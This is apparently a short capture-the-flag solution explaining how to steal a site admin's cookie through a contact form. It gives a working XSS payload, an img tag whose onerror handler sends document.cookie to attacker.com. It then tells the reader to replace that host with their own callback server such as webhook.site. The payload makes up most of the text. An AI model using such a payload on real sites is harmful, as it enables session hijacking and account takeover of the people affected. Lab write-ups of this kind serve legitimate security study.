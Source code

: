 # Solution
- We have a `contact` page that allows us to send a message to the admin.
- We want to steal the admin's cookie, using an XSS attack.
```html
<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">
```
- Replace `attacker.com` with your callback server. You can use `https://webhook.site`.
